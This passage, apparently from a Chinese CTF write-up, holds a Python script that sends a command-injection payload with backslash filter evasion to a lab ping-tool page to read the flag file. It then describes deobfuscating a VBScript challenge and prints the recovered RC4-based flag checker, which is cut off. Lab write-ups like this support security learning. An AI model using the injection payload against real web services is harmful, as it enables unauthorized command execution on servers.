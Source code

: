 ### 完整代码

```python
import requests

# 目标URL
url = "http://10.102.32.142:43545/ping-tool.php"  

payload = "127.0.0.1"

# POST请求的数据
data = { 
    'ip': payload,
    'num': "2; l\s -ld /f\lag; le\ss /f\lag;"
}

response = requests.post(url, data=data)
# 打印响应内容（即命令执行后的结果）
print(response.text)
```

## # very bad script

### 解题思路

开始是不知道flag和re.vbs之间的关系，首先看到re.vbs里那不知道什么东西的“乱码”，就直接不想看了，然后看到flag里的字符串，以为要进行解码然后填到re.vbs里，处理了好久没弄出来。后来想着能不能得到re.vbs的源码，当时搜索了很久，发现是源码被混淆了，但一直没找到方法，后来看到[这篇文章](https://www.52pojie.cn/thread-1924143-1-1.html)才发现将前面的Execute改成 **wscript.echo**，就能直接得到脚本内容。后面就是根据逆向得到的加密算法，找到满足条件的 `userinput`，使得经过加密后得到已知的 `encryptedFlag`，而`userinput`就是我们的flag。

```vbscript
Dim userinput

userinput = InputBox("Input your flag:", "Check")
Dim key

key = "key_key_key"

Function RC4(key, input1)
    Dim S(255), inputBytes(), i, j, temp, k
    Dim result
    result = ""

    ' Initialize the state array
    For i = 0 To 255
        S(i) = i
    Next

    ' Convert input string to byte array
    ReDim inputBytes(Len(input1) - 1)
    For i = 0 To Len(input1) - 1
        inputBytes(i) = Asc(Mid(input1, i + 1, 1)) Xor Asc(Mid(key, (i Mod Len(key)) + 1, 1))
    Next

    ' Key-scheduling algorithm (KSA)
    j = 0
    For i = 0 To 255
        j = (j + S(i) + Asc(Mid(key, (i Mod Len(key)) + 1, 1))) Mod 256
        temp = S(i)
        S(i) = S(j)
        S(j) = temp
    Next

    ' Pseudo-random generation algorithm (PRGA)
```